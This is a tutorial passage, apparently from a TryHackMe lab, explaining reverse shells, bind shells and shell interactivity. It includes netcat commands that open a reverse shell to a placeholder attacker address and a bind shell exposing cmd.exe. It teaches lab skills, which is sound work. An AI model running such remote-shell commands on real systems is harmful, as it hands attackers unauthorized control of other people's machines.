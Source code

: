 # Shell Types

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: **Reverse shells** and **Bind shells**.

## Reverse Shells

Reverse shells are when the target is forced to execute code that connects back to your computer. On your own computer, you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

## Bind Shells

Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

As a general rule, reverse shells are easier to execute and debug. However, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead, notice the difference between reverse and bind shells in the following simulations.

### Reverse Shell Example

Let's start with the more common reverse shell. Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left, we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

**On the attacking machine:**

```bash
sudo nc -lvnp 443
```

**On the target:**

```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

Notice that after running the command on the right, the listener receives a connection. When the `whoami` command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine and sending a connection from the target.

### Bind Shell Example

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left, we have the attacker's computer, on the right, we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

**On the target:**

```bash
nc -lvnp <port> -e "cmd.exe"
```

**On the attacking machine:**

```bash
nc MACHINE_IP <port>
```

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows. The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

## Interactivity

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

### Interactive Shells

If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

Here you can see that it's asking interactively that the user type either `yes` or `no` in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.

### Non-Interactive Shells

Non-interactive shells don't give you that luxury. In a non-interactive shell, you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. Let's see what happens when we try to run SSH in a non-interactive shell:

Notice that the `whoami` command (which is non-interactive) executes perfectly, but the `ssh` command (which is interactive) gives us no output at all. As an interesting side note, the output of an interactive command does go somewhere, however, figuring out where is an exercise for you to attempt on your own. Suffice to say that interactive programs do not work in non-interactive shells.

Additionally, in various places throughout this task, you will see a command in the screenshots called `listener`. This command is an alias unique to the attacking machine used for demonstrations and is a shorthand way of typing `sudo rlwrap nc -lvnp 443`, which will be covered in upcoming tasks. It will not work on any other machine unless the alias has been configured locally.